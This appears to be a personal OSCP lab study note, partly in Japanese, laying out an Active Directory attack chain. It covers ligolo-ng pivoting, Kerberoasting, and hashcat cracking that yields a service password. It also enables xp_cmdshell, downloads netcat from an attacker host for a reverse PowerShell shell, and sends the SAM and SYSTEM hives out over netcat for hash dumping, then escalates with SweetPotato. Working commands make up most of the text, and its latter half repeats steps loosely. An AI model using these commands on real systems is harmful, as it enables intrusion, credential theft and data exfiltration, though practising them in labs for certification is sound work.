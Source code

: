 ## pivotting technique<br>

1. Transfer the agent file to the machine hovering over both Network segments<br>
wget http://192.168.45.173/agent.exe -outfile agent.exe<br>

2. Start the ligolo server<br>
./proxy -selfcert -laddr 0.0.0.0:443<br>

3. Start the ligolo agent to connect to the server<br>
./agent.exe -connect 192.168.45.173:443 -ignore-cert

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/1.png?raw=true)

4. By this time, you should be able to access the internal machine by pivotting through the macine.

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/2.png?raw=true)

5. nmap

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/3.png?raw=true)

7. You can try Kerberoasting since you have access to the DC.
`impacket-GetUserSPNs -request -dc-ip 10.10.138.146 oscp.exam/Eric.Wallows`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/4.png?raw=true)


8. Password crack the above hashes
`hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt`
> sql_svc password  → Dolphin1


9. Access the MSSQL server
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami '`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/5.png?raw=true)


10. Set the Port forwardinf IP so that the internal machines can access Kali

`listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888`<br>
`listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444`<br>
`listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80`<br>
`listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/6.png?raw=true)



hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt
sql_svc の password が、 Dolphin1と分かる。


impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth


EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;


EXEC xp_cmdshell ' whoami '



listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888
listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444
listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000






( なぜかエラーになった  )  EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.138.147nc64.exe C:\Windows\Temp\nc64.exe';
EXEC xp_cmdshell 'powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.138.147/nc64.exe'',''C:\Users\Public\nc64.exe'')"';




EXEC xp_cmdshell 'C:\Users\Public\nc64.exe 10.10.138.147 4444 -e powershell'


(4444 にて、nc で待ち受ける)



C:\windows.old\windows\system32>nc64.exe 10.10.149.138 5555 < SAM
C:\windows.old\windows\system32>.\nc64.exe 10.10.149.138 5555 < SYSTEM

nc -lvnp 5555 > SAM
nc -lvnp 5555 > SYSTEM





impacket-secretsdump -sam SAM -system SYSTEM LOCAL



 .\SweetPotato -t * -p shell.exe -l 1235

このマシンのエスカレは、sweetpotato で出来る。




impacket-secretsdump -sam SAM -system SYSTEM LOCAL



	

https://medium.com/@saintlafi/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022

https://zenn.dev/megapachirisu/articles/bb0e9beb3f20ae

https://zenn.dev/codingotter/articles/79590426fecee5#chisel-dynamic-port-forwarding


https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9

https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

Ligolo-ng Accessing Localhost Ports




